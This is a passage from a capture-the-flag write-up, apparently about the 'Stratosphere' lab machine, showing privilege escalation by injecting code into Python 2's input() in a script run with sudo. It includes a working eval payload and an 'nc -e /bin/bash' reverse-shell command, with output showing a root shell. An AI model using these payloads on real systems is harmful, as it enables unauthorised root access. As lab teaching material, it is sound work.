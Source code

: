 It is unusual to see python mapped to python3 by default. Let’s think about functions that are different in python2 and python3, like `input`. This script intends to be called with python3, both in the #! and in the default mapping. And it makes use of `input` to get user input. But in python2, `input` is equivalent to `eval(raw_input(prompt))` ([ref](https://docs.python.org/2/library/functions.html#input)). So the user can pass something into this function that will be passed to `eval`.

[This article](https://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.html) on eval exploitation shows how an attacker can import modules and call them inside eval. To test it on stratosphere:

```

richard@stratosphere:~$ ls /dev/shm
output.17370

richard@stratosphere:~$ sudo python2 ~/test.py
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("touch /dev/shm/0xdf")
Traceback (most recent call last):
  File "/home/richard/test.py", line 38, in <module>
    question()
  File "/home/richard/test.py", line 8, in question
    md5.update(q1.encode())
AttributeError: 'int' object has no attribute 'encode'

richard@stratosphere:~$ ls /dev/shm
0xdf  output.17370

```

Now get a shell:

```

richard@stratosphere:~$ sudo python2 ~/test.py
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("nc -e /bin/bash 127.0.0.1 12311")
  File "<string>", line 1
    import pty.pty.spawn("bash")
                        ^
SyntaxError: invalid syntax

```

```

richard@stratosphere:~$ nc -lnvp  12311
listening on [any] 12311 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42910
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("bash")'
root@stratosphere:/home/richard#

```
